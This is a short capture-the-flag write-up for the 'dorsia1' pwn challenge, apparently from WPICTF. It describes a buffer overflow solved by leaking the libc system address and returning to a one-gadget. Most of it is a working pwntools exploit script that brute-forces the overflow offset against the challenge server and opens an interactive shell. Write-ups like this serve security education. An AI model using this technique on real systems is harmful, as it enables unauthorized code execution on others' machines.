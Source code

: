 # dorsia1 100pts (119 solves) #

![TASK](https://imgur.com/UYebsbW.png)

we are given the source code , it's a buffer overflow but we don't know the offset , i leaked the libc (using the system address) and used a one gadget from the libc to return to it

![CODE](https://imgur.com/sj0QL9v.png)

Here is my full exploit , i'll share a detailed writeup about dorsia1 and dorsia3 in the next few days on my personal website so stay tuned (My twitter @BelkahlaAhmed1)

```python
from pwn import *
for i in range(69,90):
        p=remote("dorsia1.wpictf.xyz",31337)
#p=process("./pwn")
        leak=p.recvline()
        SYSTEM=int(leak,16)-765772
        BASE=SYSTEM-0x0004f440
        log.info("System address: "+hex(SYSTEM))
        log.info("Base: "+hex(BASE))
        one_gadget=BASE+0x0004f322
        log.info("One gadget: "+hex(one_gadget))
        payload="\x00"*i
        payload+=p64(one_gadget)
        p.sendline(payload)
        p.sendline("id")
        try:
                data=p.recvline()
                if "gid" in data: 
                        log.info("Fouuund!")
                        p.interactive()
        except Exception:
                continue
```
**Note:** The binary link is [HERE]()
If you have any questions you can contact me on twitter @BelkahlaAHmed1
